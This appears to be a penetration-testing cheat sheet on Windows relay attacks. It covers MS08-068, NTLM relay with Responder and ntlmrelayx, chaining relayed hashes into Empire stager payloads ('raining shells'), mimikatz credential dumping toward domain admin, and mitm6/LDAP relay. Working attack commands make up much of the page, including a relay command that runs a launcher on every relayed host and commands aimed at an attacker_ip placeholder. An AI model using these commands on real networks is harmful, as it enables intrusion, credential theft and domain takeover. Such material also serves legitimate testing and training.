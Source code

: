 # Relay Attacks



{% hint style="info" %}
#### For a full list of MitM techniques refer to [MitM & poisoning](broken-reference) section.
{% endhint %}

## <mark style="color:red;">MS08-068</mark>

{% embed url="https://www.rapid7.com/blog/post/2008/11/11/ms08-068-metasploit-and-smb-relay" %}

{% embed url="https://msrc-blog.microsoft.com/2008/11/11/ms08-068-smb-credential-reflection-defense" %}

### <mark style="color:orange;">Metasploit Module</mark>

```
use exploit/windows/smb/smb_relay 
# windows200 / windows server2008
```

## <mark style="color:red;">NTLM Relay</mark>

```
responder -I eth0 # disable smb & http
ntlmrelayx.py -tf targets.txt
```

## <mark style="color:red;">NTLM Relay + Empire</mark>

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" %}

{% embed url="https://youtu.be/f9oMVoc2Umc" %}

NetNTLMv2 is microsoft's challenge and response protocol. When authenticating to a server the user's hash followed by the server's challenge is used. With relaying hashes you simply take the NetNTLMv2 hash you collected and relay it to a set of hosts and hopefully the user(s) have administrator access. Then you execute a payload and woop de doo you have an admin shell.

In a windows AD environment 9 times out of 10 all the workstations share the same local administrator password. You might be really lucky and both hosts and servers share the same local administrator password as well. At that point it becomes a discovery mission for where the domain admins are logged in.

Before we can do that we must generate a list of hosts in the domain suspectible to our attack. That is indicated by SMB-signing being disabled, which is default in most Windows OSs, except the Server.

Execute this from the CrackMapExec package:

```
cme smb <CIDR> --gen-relay-list targets.txt
```

Where the CIDR is your domain subnet. This generates a list of hosts which have SMB-signing disabled. The Server versions of Windows have SMB-signing enabled so you can't relay to that one. Also important is the fact that you can't relay to the host the request orginated from.

### <mark style="color:orange;">Responder</mark>

{% embed url="https://www.sternsecurity.com/blog/local-network-attacks-llmnr-and-nbt-ns-poisoning" %}

Responder does not pick up on FQDN queries, but it does pick up on NetBIOS and LLMNR, because Windows boxes are very chatty. When Windows boxes try to authenticate to things like file shares they default to NetBIOS for queries. This occurs with the use of NetNTLMv2 hashes.

Responder captures these NetNTLMv2 hashes. You can not pass the hash with these but you can crack them or you can relay them to other machines. This part will only explain how to run Responder and capture hashes.

**Start Responder**

```
Responder -I eth0 -wrf
```

Where -I is for interface and eth0 is your interface. The -wrf is optional, but -f is useful as it fingerprints the OS version. The other options are explained with -h.

To try this out in your lab, open explorer on a Windows machine and type `\\share\` in the address bar and wait for the credential prompt. This will trigger a name resolution request over SMB to find a resource using the current account's credentials. That should allow Responder to capture the NetNTLMv2 hash of the user making the request and print them in your terminal.

You can now crack the hashes using your favorite tool, but another alternative is relaying those hashes.

Now so far, Responder had set up an HTTP and SMB server to act as a middleman between the one requesting a resource and the file share. We now want to give our captured hashes to the tool NTLMrelay, so we edit `Responder.conf` to turn off the HTTP and SMB server.

After that is done, run Responder like before:

```
Responder -I eth0 -wrf
```



### <mark style="color:orange;">Empire</mark>

Now getting into Empire shouldn't be too hard if you are familiar with tools such as Metasploit. A short guide can be found [here](https://www.sw1tch.net/2015/08/11/powershellempire-5-minute-quick-start-guide-featuring-kali-linux-andor-debian-8-0/).

Start up Empire, open a listener and create a so called stager, point it to your listener. The generated output is your payload. Note that this kind of output is normally picked up by antivirus in real environment.

```
./empire
uselistener http
set Port 81
execute
back
usestager multi/launcher
set Listener http
generate
agents
```

### <mark style="color:orange;">NTLMrelay</mark>

Now perform the actual relaying using ntlmrelay from the Impacket library.

```
ntlmrelayx.py -tf targets.txt -c <insert your Empire Powershell launcher here>
```

Now copypaste the payload from Empire into the NTLMrelay command above. This will execute the payload for every box it relays to and it should be raining shells very soon. You will see a message in Empire saying it got an agent when it's successful. You will also see hashes written in the terminal while it's running.

### <mark style="color:orange;">Back to Empire</mark>

Now in my lab environment I have had some trouble where agents are not always spawned or hashes are not captured. Here's what you can try:

* Trigger a few requests from the Windows machines using the `\\share\` trick.
* Restart all the tools.
* Reset Empire's database.
* Reboot the Windows machines.
* Execute the payload from cmd inside a Windows computer to check if it's actually working. (You should get an agent instantly).

Ok, so you have an agent now. Sometimes the interaction with agents in Empire agent can be painstakingly slow, so have some patience when running commands. Try whoami, sysinfo and other basic commands. Sometimes, the agents timeout and you'll have to spawn new ones. Kill and/or remove old ones using `kill` and `remove`.

Once you have administrator access to a box you can run mimikatz, which is bundled with Empire. If you're lucky you'll get DA credentials in plaintext, because as previously explained Windows stores those in memory. If you have a local administrator hash on the hosts you can use CrackMapExec to do a mass mimikatz. Basically what it does is a pass the hash on multiple hosts, runs the mimikatz sekurlsa::loggonpasswords and returns output. Hopefully one of them is a DA and game over. Now this might be a bit confusing so lkys37en explained this the following way:

> Say you're an IT administrator. You're logged into your workstation and your account has domain admin rights. I come along and pop a admin shell on another workstation. I grab the hash and do a pass the hash with the local administrator account to your box and then run mimikatz. If you're running Windows 7 and 8 I'll get the NTLM hash and plaintext credentials. If you're running Windows 8.1 and above I only get the NTLM hash.

What this means is that you gain the local admin hash, and pass it to the DC which proves you are admin on DA, which allows you to do mimikatz and extract DA credentials. You're hoping the IT administrators used the same local administrator account on all workstations.

To check if the user is part of the Domain Admins group, run `net user "Domain Admins" /domain`

Now if you're so lucky that you're a DA you can start looking into lateral movement modules in Empire to get into the DC and have some fun.

**Useful links:**

{% embed url="https://blog.stealthbits.com/lateral-movement-with-crackmapexec" %}

## <mark style="color:red;">NTLM/LDAP Relay + MitM6</mark>

```
mitm6 -i eth0 -d <domain>

ntlmrelayx.py -6 -wh <attacker_ip> -l /tmp -socks -debug
ntlmrelayx.py -6 -wh <attacker_ip> -t smb://<target> -l /tmp -socks -debug
ntlmrelayx.py -t ldaps://<dc_ip> -wh <attacker_ip> --delegate-access
getST.py -spn cifs/<target> <domain>/<netbios_name>\$ -impersonate <user>
```




